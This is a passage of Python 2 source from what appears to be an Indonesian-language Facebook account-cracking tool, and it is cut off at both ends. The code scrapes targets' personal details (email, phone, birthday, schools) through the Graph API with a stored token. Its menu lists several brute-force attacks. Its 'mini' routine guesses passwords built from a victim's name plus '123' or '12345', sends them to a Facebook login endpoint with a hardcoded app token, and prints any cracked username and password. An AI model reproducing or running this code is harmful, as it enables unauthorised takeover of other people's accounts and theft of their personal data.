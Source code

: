 = requests.get('https://graph.facebook.com/' + p['id'] + '?access_token=' + toket) z = json.loads(r.text) print 40 *
'\x1b[1;97m\xe2\x95\x90' try: print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mNama\x1b[1;97m : ' + z['name'] except KeyError: print '\x1b[1;91m[?] \x1b[1;92mNama\x1b[1;97m : \x1b[1;91mTidak ada' else: try: print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mID\x1b[1;97m : ' + z['id'] except KeyError: print '\x1b[1;91m[?] \x1b[1;92mID\x1b[1;97m : \x1b[1;91mTidak ada' else: try: print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mEmail\x1b[1;97m : ' + z['email'] except KeyError: print '\x1b[1;91m[?] \x1b[1;92mEmail\x1b[1;97m : \x1b[1;91mTidak ada' else: try: print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mNomor HP\x1b[1;97m : ' + z['mobile_phone'] except KeyError: print '\x1b[1;91m[?] \x1b[1;92mNomor HP\x1b[1;97m : \x1b[1;91mTidak ada' try: print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mLokasi\x1b[1;97m : ' + z['location']['name'] except KeyError: print '\x1b[1;91m[?] \x1b[1;92mLokasi\x1b[1;97m : \x1b[1;91mTidak ada' try: print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mTanggal Lahir\x1b[1;97m : ' + z['birthday'] except KeyError: print '\x1b[1;91m[?] \x1b[1;92mTanggal Lahir\x1b[1;97m : \x1b[1;91mTidak ada' try: print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mSekolah\x1b[1;97m : ' for q in z['education']: try: print '\x1b[1;91m ~ \x1b[1;97m' + q['school']['name'] except KeyError: print '\x1b[1;91m ~ \x1b[1;91mTidak ada' except KeyError: pass raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu() else: print '\x1b[1;91m[\xe2\x9c\x96] Pengguna tidak ditemukan' raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu() def menu_hack(): os.system('clear') try: toket = open('login.txt', 'r').read() except IOError: print '\x1b[1;91m[!] Token tidak ditemukan' os.system('rm -rf login.txt') time.sleep(1) login() os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' print '\x1b[1;37;40m1. Mini Hack Facebook(\x1b[1;92mTarget\x1b[1;97m)' print '\x1b[1;37;40m2. Multi Bruteforce Facebook' print '\x1b[1;37;40m3. Super Multi Bruteforce Facebook' print '\x1b[1;37;40m4. BruteForce(\x1b[1;92mTarget\x1b[1;97m)' print '\x1b[1;37;40m5. Yahoo Checker' print '\x1b[1;37;40m6. Ambil id/email/hp' print '\x1b[1;31;40m0. Kembali' print hack_pilih() def hack_pilih(): hack = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ') if hack == '': print '\x1b[1;91m[!] Jangan kosong' hack_pilih() else: if hack == '1': mini() else: if hack == '2': crack() hasil() else: if hack == '3': super() else: if hack == '4': brute() else: if hack == '5': menu_yahoo() else: if hack == '6': grab() else: if hack == '0': menu() else: print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + hack + ' \x1b[1;91mTidak ada' hack_pilih() def mini(): os.system('clear') try: toket = open('login.txt', 'r').read() except IOError: print '\x1b[1;91m[!] Token tidak ditemukan' os.system('rm -rf login.txt') time.sleep(1) login() else: os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' print '\x1b[1;91m[ INFO ] Akun target harus berteman dengan akun anda dulu !' try: id = raw_input('\x1b[1;91m[+] \x1b[1;92mID Target \x1b[1;91m:\x1b[1;97m ') jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...') r = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket) a = json.loads(r.text) print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mNama\x1b[1;97m : ' + a['name'] jalan('\x1b[1;91m[+] \x1b[1;92mMemeriksa \x1b[1;97m...') time.sleep(2) jalan('\x1b[1;91m[+] \x1b[1;92mMembuka keamanan \x1b[1;97m...') time.sleep(2) jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mMohon Tunggu sebentar \x1b[1;97m...') print 40 * '\x1b[1;97m\xe2\x95\x90' pz1 = a['first_name'] + '123' data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') y = json.load(data) if 'access_token' in y: print '\x1b[1;91m[+] \x1b[1;92mDitemukan.' print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m : ' + a['name'] print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1 raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_hack() else: if 'www.facebook.com' in y['error_msg']: print '\x1b[1;91m[+] \x1b[1;92mDitemukan.' print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint' print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m : ' + a['name'] print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1 raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_hack() else: pz2 = a['first_name'] + '12345' data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') y = json.load(data) if 'access_token' in y: print '\x1b[1;91m[+] \x1b[1;92mDitemukan.' print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m : ' + a['name'] print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2 raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_hack() else: if 'www.facebook.com' in y['error_msg']: print '\x1b[1;91m[+] \x1b[1;92mDitemukan.' print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint' print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m : ' + a['name'] print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2 raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_hack() else: pz3 = a['last_name'] + '123' data =